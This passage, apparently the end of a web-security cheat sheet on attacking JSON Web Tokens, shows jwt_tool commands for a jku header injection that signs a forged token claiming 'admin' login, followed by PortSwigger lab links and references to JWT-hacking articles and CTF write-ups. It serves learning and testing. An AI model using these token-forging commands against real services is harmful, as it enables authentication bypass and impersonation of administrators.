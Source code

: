 ```ps1
python3 jwt_tool.py JWT_HERE -X s
python3 jwt_tool.py JWT_HERE -X s -ju http://example.com/jwks.json
```

**Deconstructed**:

```json
{"typ":"JWT","alg":"RS256", "jku":"https://example.com/jwks.json"}.
{"login":"admin"}.
[Signed with new Private key; Public key exported]
```


## Labs 

* [JWT authentication bypass via unverified signature](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)
* [JWT authentication bypass via flawed signature verification](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)
* [JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)
* [JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)
* [JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)
* [JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)

## References

- [5 Easy Steps to Understanding JSON Web Token](https://medium.com/cyberverse/five-easy-steps-to-understand-json-web-tokens-jwt-7665d2ddf4d5)
- [Attacking JWT authentication - Sep 28, 2016 - Sjoerd Langkemper](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)
- [Club EH RM 05 - Intro to JSON Web Token Exploitation - Nishacid](https://www.youtube.com/watch?v=d7wmUz57Nlg)
- [Critical vulnerabilities in JSON Web Token libraries - March 31, 2015 - Tim McLean](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries//)
- [Hacking JSON Web Token (JWT) - Hate_401](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)
- [Hacking JSON Web Tokens - From Zero To Hero Without Effort - Websecurify Blog](https://web.archive.org/web/20220305042224/https://blog.websecurify.com/2017/02/hacking-json-web-tokens.html)
- [Hacking JSON Web Tokens - medium.com Oct 2019](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
- [HITBGSEC CTF 2017 - Pasty (Web) - amon (j.heng)](https://nandynarwhals.org/hitbgsec2017-pasty/)
- [How to Hack a Weak JWT Implementation with a Timing Attack - Jan 7, 2017 - Tamas Polgar](https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9)
- [JSON Web Token Validation Bypass in Auth0 Authentication API - Ben Knight Senior Security Consultant - April 16, 2020](https://insomniasec.com/blog/auth0-jwt-validation-bypass)
- [JSON Web Token Vulnerabilities - 0xn3va](https://0xn3va.gitbook.io/cheat-sheets/web-application/json-web-token-vulnerabilities)
- [JWT Hacking 101 - TrustFoundry - Tyler Rosonke - December 8th, 2017](https://trustfoundry.net/jwt-hacking-101/)
- [Learn how to use JSON Web Tokens (JWT) for Authentication - @dwylhq](https://github.com/dwyl/learn-json-web-tokens)
- [Privilege Escalation like a Boss - October 27, 2018 - janijay007](https://blog.securitybreached.org/2018/10/27/privilege-escalation-like-a-boss/)
- [Simple JWT hacking - @b1ack_h00d](https://medium.com/@blackhood/simple-jwt-hacking-73870a976750)
- [WebSec CTF - Authorization Token - JWT Challenge](https://ctf.rip/websec-ctf-authorization-token-jwt-challenge/)
- [Write up – JRR Token – LeHack 2019 - 07/07/2019 - LAPHAZE](https://web.archive.org/web/20210512205928/https://rootinthemiddle.org/write-up-jrr-token-lehack-2019/)